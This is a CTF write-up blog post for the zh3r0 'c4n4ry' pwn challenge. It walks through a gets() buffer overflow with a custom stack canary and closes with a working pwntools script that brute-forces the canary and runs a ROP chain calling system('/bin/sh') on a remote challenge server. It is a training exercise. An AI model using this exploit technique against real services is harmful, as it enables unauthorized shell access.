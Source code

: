 ```yaml
---
layout: post
author: tourpran
title: c4n4ry Writeup | zh3r0 CTF
categories: writeup
tags: [CTF-Writeup]
---
```


I am so proud of my team (zh3r0). This was our first CTF and it went pretty well.

## Challenge description:
![](/assets/images/imcanary.png)

## Solution:
### First step:

Analyze the binary and then check its mitigations.

![](/assets/images/mitigationscanary.png)

* NX is enabled so no shellcodes.
* PIE is disabled and also ASLR was disabled so no worries of the address changing.
Now, let us run the binary and then see !!

![](/assets/images/run.png)

We can say that there was a continuous loop running. Also if we analyze the binary carefully we can see the `name` and `input` were not vulnerable but the `description` was using gets which reads arbitrary input.Now we can disassemble the main file now.

![](/assets/images/get.png)

* GETS is vulnerable but…
* There is an additional memory compare.
* We can say that it might be our canary.

### The idea for the exploit:
Our first step will be in calculating the offset for the canary. I use pwntools pwn cyclic function but you guys can do anything.

### Inside GDB:
* I set a break at the memory compare.
* I use pwntools to analyze what is being compared with what
* Note: I also set up a fake canary to work with the binary locally

![](/assets/images/break.png)
<br />
![](/assets/images/break2.png)

Then I analyzed the string that was being compared with the help of pwntools.<br>
I got the offset as 192 for the canary. Now let me make a script to get a shell.
```python
from pwn import *
'''
system address = 0x400780
'''
p = remote("134.209.157.250", 5084)
p.sendline("1")
p.sendline("1")
buf = ('a'*192)
buf += ('abcd')
```

So I set the canary to be “abcd” and then I searched for some ROP and before that, I also got the offset for the ret to be 20 bytes.
So I created a **ROP chain.**

![](/assets/images/c1.png)
now it's just combining all of the gadgets that's it.
### Final step:
I need to brute force the canary. It was damn easy cause i told them the hints that the canary was going to be small letters and was going to be in order.
```python
from pwn import *
'''
sys = 0x400780
'''
for i in range(80, 123):
 p = remote("134.209.157.250",5084)
 p.sendline("1")
 p.sendline("1")
 buf = ('a'*192)
 buf += chr(i)+chr(i+1)+chr(i+2)+chr(i+3)
 buf += ('a'*20)
 buf += (p64(0x400936)) # pop r12
 buf += ("/bin/sh;")
 buf += (p64(0x400933)) #  pop r11 
 buf += (p64(0x6020B0)) #  just a random address to write to 
 buf += (p64(0x400927)) #  mov [r11], r12
 buf += (p64(0x0000000000400939)) # pop rdi
 buf += (p64(0x6020B0)) #  write address
 buf += (p64(0x400780)) #  system
 p.sendline(buf)
 p.interactive()
```
I just made the loop a bit big but what is the problem :P
![](/assets/images/shell.png)

## END
This was my first attempt to make a canary problem.So hope you liked this. Will be posting more blogs soon.